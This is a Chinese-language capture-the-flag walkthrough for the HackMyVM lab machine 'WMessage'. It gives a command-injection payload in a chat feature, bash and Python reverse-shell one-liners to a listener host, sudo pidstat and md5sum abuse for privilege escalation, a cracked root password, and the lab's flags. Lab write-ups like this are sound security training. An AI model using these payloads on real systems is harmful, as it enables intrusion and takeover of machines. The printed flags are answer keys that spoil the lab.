 # WMessage

2025.02.19 https://hackmyvm.eu/machines/machine.php?vm=WMessage

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问首页跳转到登陆页面，可能存在 SQL 注入，经过测试暂时未发现。有一个注册页面，http://192.168.5.40/sign-up 注册个账号进入系统，发现可以发消息，并且可以执行 !mpstat 查看状态，可能存在 RCE，进行探测，输入 !mpstat:id 刷新页面后，出现 www-data，验证有 RCE，直接反弹 shenll 到 kali：

```
!mpstat;/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'
```

得到反弹 shell:

```
www-data@MSG:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

sudo -l 发现 (messagemaster) NOPASSWD: /bin/pidstat 先提权到 messagemaster 用户：

```
sudo -u messagemaster pidstat -e /bin/bash
```

执行后，很快又被系统踢出来，不能执行交互式的命令。换另外一种方式，在 kali 上再次建立监听，然后用 python 进行反弹：

```
sudo -u messagemaster pidstat -e python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

获取到 messagemaster 用户 shell 后，得到了 user flag：

```
ea86091a17126fe48a83c1b8d13d60ab
```

sudo -l 发现：(ALL) NOPASSWD: /bin/md5sum 然后在 /var/www/ROOTPASS 中有 root 用户密码，使用 sudo 程序将其读取出来，然后进行哈希破解：

```
sudo /bin/md5sum  /var/www/ROOTPASS

85c73111b30f9ede8504bb4a4b682f48
```

对其 hashcat 后得到密码 Message5687 直接 su 切换到 root，得到了 root flag:

```
root@MSG:~# cat Root.txt
a59b23da18102898b854f3034f8b8b0f
```
